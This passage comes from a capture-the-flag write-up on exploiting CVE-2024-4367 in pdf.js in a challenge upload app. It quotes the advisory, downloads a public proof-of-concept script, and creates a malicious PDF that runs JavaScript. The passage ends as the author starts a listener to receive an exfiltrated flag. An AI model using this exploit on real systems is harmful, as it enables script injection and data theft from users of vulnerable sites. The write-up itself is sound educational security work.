Oh! Looks like this web application is indeed using the vulnerable `pdf.js`!

In the [GitHub advisory](https://github.com/advisories/GHSA-wgrm-67xf-hhpq), the description said:

> If pdf.js is used to load a malicious PDF, and PDF.js is configured with `isEvalSupported` set to `true` (which is the default value), unrestricted attacker-controlled JavaScript will be executed in the context of the hosting domain.

In the "CVE ID" section, we can also see that it is the exact same CVE ID!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Codegate-CTF-2024-Preliminary/images/Pasted%20image%2020240610133740.png)

## Exploitation

Let's search for public exploit, like PoC (Proof-of-Concept)!

By Googling the CVE ID, we can find [this PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Codegate-CTF-2024-Preliminary/images/Pasted%20image%2020240610133826.png)

**Let's download the PoC Python script!**
```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:42:30(HKT)]
└> wget https://raw.githubusercontent.com/LOURC0D3/CVE-2024-4367-PoC/main/CVE-2024-4367.py
[...]
```

**In that GitHub repository, the PoC usage is like this:**
```bash
python3 CVE-2024-4367.py "alert(document.domain)"
```

**Let's try to popup an alert box!**
```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:43:47(HKT)]
└> python3 CVE-2024-4367.py "alert(document.domain)"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|13:43:54(HKT)]
└> file poc.pdf          
poc.pdf: PDF document, version 1.4, 1 page(s)
```

Then upload it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Codegate-CTF-2024-Preliminary/images/Pasted%20image%2020240610134449.png)

Nice! We can confirm that this web application is vulnerable to CVE-2024-4367!

Now, let's host a web server to receive the exfiltrated flag! To do so, I'll be using Python's `http.server`:

```shell
┌[siunam♥Mercury]-(~/ctf/Akasec-CTF-2024/Web/Upload)-[2024.06.10|14:16:11(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
